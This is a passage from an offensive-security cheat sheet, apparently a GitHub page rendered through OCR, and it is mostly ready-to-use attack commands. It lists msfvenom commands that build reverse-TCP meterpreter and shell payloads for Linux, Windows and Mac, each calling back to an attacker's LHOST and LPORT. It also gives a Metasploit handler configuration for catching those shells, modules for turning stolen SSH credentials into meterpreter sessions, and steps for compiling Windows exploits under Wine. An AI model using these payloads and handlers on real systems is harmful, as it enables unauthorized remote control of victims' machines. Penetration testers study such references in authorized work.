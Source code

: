       msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
      
      *Windows Based Shellcode*

      msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
      
      *Mac Based Shellcode*

      msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

      **Handlers**
      Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

      use exploit/multi/handler
      
      set PAYLOAD <Payload name>
      
      set LHOST <LHOST value>
      
      set LPORT <LPORT value>
      
      set ExitOnSession false
      
      exploit -j -z
      
      Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

-   SSH to Meterpreter:

      use auxiliary/scanner/ssh/ssh_login
      
      use post/multi/manage/shell_to_meterpreter
      
      https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

-   Compiling Windows Exploits on Kali

    -   wget -O mingw-get-setup.exe
        http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download  
        wine mingw-get-setup.exe  
        select mingw32-base

    -   cd /root/.wine/drive\_c/windows  
        wget http://gojhonny.com/misc/mingw\_bin.zip && unzip
        mingw\_bin.zip  
        cd /root/.wine/drive\_c/MinGW/bin  
        wine gcc -o ability.exe /tmp/exploit.c -lwsock32  
        wine ability.exe

-   Cross Compiling Exploits

    -   gcc -m32 -o output32 hello.c (32 bit)  
        gcc -m64 -o output hello.c (64 bit)

-   Shellshock
